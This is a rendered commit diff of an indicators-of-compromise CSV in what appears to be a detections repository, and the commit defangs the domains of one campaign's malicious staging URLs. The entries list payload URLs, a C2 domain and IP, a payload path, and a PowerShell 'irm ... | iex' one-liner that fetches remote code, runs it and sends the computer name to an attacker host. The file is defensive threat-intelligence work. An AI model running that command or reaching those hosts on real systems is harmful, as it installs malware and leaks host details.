

Before and after one commit to harperjohnsai/detections, a CSV file: iocs/2026-11-quantai/iocs.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

```diff
--- a/iocs/2026-11-quantai/iocs.csv
+++ b/iocs/2026-11-quantai/iocs.csv
@@ -7,8 +7,8 @@ domain,quant-pro[.]ai,2026-11-09,lure,candidate,low,analyst triage
 domain,chartsgpt[.]com,2026-10-26,stage,malicious,high,urlscan.io; RDAP
-url,hxxps://chartsgpt.com/quant.php?Dio=<COMPUTERNAME>,2026-10-30,stage,malicious,high,urlscan.io; analyst triage
-url,hxxps://chartsgpt.com/ps.php,2026-11-09,stage,malicious,high,analyst triage
-url,hxxps://chartsgpt.com/ps2.php,2026-10-30,stage,malicious,high,urlscan.io
-url,hxxps://chartsgpt.com/boka.7z,2026-11-09,stage,malicious,high,analyst triage
-url,hxxps://chartsgpt.com/smow.7z,2026-11-09,stage,malicious,high,analyst triage
-url,hxxps://chartsgpt.com/vh.exe,2026-11-09,stage,malicious,high,analyst triage
+url,hxxps://chartsgpt[.]com/quant.php?Dio=<COMPUTERNAME>,2026-10-30,stage,malicious,high,urlscan.io; analyst triage
+url,hxxps://chartsgpt[.]com/ps.php,2026-11-09,stage,malicious,high,analyst triage
+url,hxxps://chartsgpt[.]com/ps2.php,2026-10-30,stage,malicious,high,urlscan.io
+url,hxxps://chartsgpt[.]com/boka.7z,2026-11-09,stage,malicious,high,analyst triage
+url,hxxps://chartsgpt[.]com/smow.7z,2026-11-09,stage,malicious,high,analyst triage
+url,hxxps://chartsgpt[.]com/vh.exe,2026-11-09,stage,malicious,high,analyst triage
 domain,sonosarcsounds[.]com,2026-06-15,c2,malicious,high,RDAP; config file
@@ -36,3 +36,3 @@ cert-serial,25:59:22:98:98:22:5a:af:4d:71:14:de:05:b0:88:78,2026-10-02,c2,candid
 path,%LOCALAPPDATA%\Stoservice\stservice.exe,2026-11-09,payload,malicious,high,analyst triage
-command,"irm ""hxxps://chartsgpt.com/quant.php?Dio=$($env:COMPUTERNAME)"" | iex",2026-11-09,stage,malicious,high,analyst triage
+command,"irm ""hxxps://chartsgpt[.]com/quant.php?Dio=$($env:COMPUTERNAME)"" | iex",2026-11-09,stage,malicious,high,analyst triage
 ipv4,45[.]91[.]202[.]58,2026-11-10,c2,malicious,high,DNS resolution; check-host.net
```
Also changed, not shown: iocs/2026-11-cryptotrice/iocs.csv, iocs/2026-11-revstealer-setup-center/iocs.csv, 18 other files.
